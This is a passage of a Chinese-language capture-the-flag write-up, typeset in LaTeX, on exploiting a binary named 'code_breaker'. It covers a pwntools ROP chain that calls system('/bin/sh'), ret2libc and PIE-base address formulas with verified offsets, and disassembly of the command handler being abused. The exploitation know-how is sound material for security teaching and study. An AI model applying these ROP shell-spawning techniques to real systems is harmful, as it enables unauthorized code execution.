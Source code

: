 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
用 pwntools 也可以：

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{elf }\OperatorTok{=}\NormalTok{ ELF(}\StringTok{\textquotesingle{}./code\_breaker\textquotesingle{}}\NormalTok{, checksec}\OperatorTok{=}\VariableTok{False}\NormalTok{)}
\NormalTok{rop }\OperatorTok{=}\NormalTok{ ROP(elf)}
\NormalTok{rop.rdi                      }\CommentTok{\# 自動找 pop rdi; ret}
\NormalTok{rop.call(}\StringTok{\textquotesingle{}system\textquotesingle{}}\NormalTok{, [binsh])  }\CommentTok{\# 自動組出呼叫}
\BuiltInTok{print}\NormalTok{(rop.dump())}
\end{Highlighting}
\end{Shaded}

\paragraph{5.2 ret2libc 的公式}\label{ret2libc-ux7684ux516cux5f0f}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
system 位址 = libc_base + libc.symbols['system']        # 本題 libc: 0x58740
"/bin/sh" 位址 = libc_base + 0x1cb42f                   # ROPgadget --string '/bin/sh'
libc_base  = 洩漏到的某個 libc 函式位址 - 該函式的 offset
PIE base   = 洩漏到的程式位址 - 該位址的檔案內 offset
\end{Verbatim}

本題的真實數值（已驗證）：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
[0x40c0] 內容 = PIE_base + 0x1390        ⇒ PIE_base  = leaked - 0x1390
system@plt    = PIE_base + 0x1150
目標函式指標   = PIE_base + 0x40c0
\end{Verbatim}

\paragraph{5.3 對應到本題}\label{ux5c0dux61c9ux5230ux672cux984c}

本題的 \texttt{cmd\ \allowbreak{}0x15} 直接做了「ROP chain 想達成的事」：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
1a35: mov rdi,rax             ; rdi = 我們送的字串（第一參數）
1a38: call QWORD PTR [0x40c0] ; 呼叫 [0x40c0]
\end{Verbatim}
\end{document}

